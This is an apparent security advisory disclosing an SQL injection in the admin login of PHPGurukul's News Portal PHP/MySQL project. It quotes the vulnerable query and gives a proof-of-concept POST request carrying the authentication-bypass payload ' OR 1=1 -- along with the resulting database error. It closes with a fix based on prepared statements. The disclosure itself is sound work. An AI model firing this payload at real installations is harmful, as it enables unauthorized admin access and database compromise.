



## SQL Injection Vulnerability in News Portal Project in PHP and MySql in PHPGurukul

**Endpoint:** `/news/admin/`
 **Method:** `POST`
 **Parameter:** `username`
 **Severity:** **9.8 Critical**
 **OWASP:** A03:2021 – Injection

**Product Link:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/

------

### Description

The admin login endpoint is vulnerable to **SQL Injection** due to unsafe concatenation of user-controlled input directly into an SQL query. This allows an attacker to alter the query structure, resulting in database syntax errors and enabling error-based or blind SQL injection.

------

### Vulnerable Code

`Line no 13 in admin/index.php`

```
$sql = mysqli_query($con,
  "SELECT AdminUserName,AdminEmailId,AdminPassword,userType
   FROM tbladmin
   WHERE (AdminUserName='$uname' && AdminPassword='$password')"
);
```

------

### Proof of Concept (PoC)

**HTTP Request**

```
POST /news/admin/ HTTP/1.1
Host: 192.168.137.1
Content-Type: application/x-www-form-urlencoded

username=' OR 1=1 -- &password=123&login=
```



**Result**

```
Fatal error: Uncaught mysqli_sql_exception:
You have an error in your SQL syntax near
'fd6438b18f84875b61d905b64d1742ab')'
```



This confirms attacker input is executed by the database, proving SQL injection.


## SQLMap PoC with DB exfiltration:



------

### Impact

- Error-based SQL injection
- Potential blind SQL injection
- Risk of authentication bypass or database compromise

------

### Recommendation

Use **prepared statements** and **secure password hashing** (`password_hash()` / `password_verify()`).


### Discovered By

Mo Asim
Github: @Asim-Qazi
